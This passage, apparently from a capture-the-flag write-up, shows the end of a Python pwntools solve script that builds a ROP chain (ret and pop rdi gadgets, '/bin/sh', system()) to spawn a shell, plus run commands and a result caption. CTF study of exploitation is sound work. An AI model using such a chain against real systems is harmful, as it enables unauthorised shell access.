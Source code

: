 ```python
    # Payload again because we are being asked how we want to divert flow of execution in another prompt
    payload = b''.join([                        # Use join() to join all elements in a list into one string
    b'A'*offset,
    p64(ret),                                   # Stack-alignment issues requires a ret gadget here
    p64(pop_rdi),                               # ROP Gadget to pop '/bin/sh' into the RDI register
    p64(bin_sh),                                
    p64(ret),                                   # Stack-alignment issues requires a ret gadget here
    p64(system),                                # Call system() from libc
    ])

    # A's at the top, B's for injection test, and C's for padding out the original length of data to send out
    payload += b'C'*(length -len(payload))          

    r.send(payload)

    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```

#### Run:

<mark style="color:red;">**Remote Exploitation**</mark>**:** `python3 solve.py REMOTE`

<mark style="color:red;">**Local Exploitation**</mark>**:** `python3 solve.py LOCAL`

#### Result

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Absolute pwnage.</p></figcaption></figure>
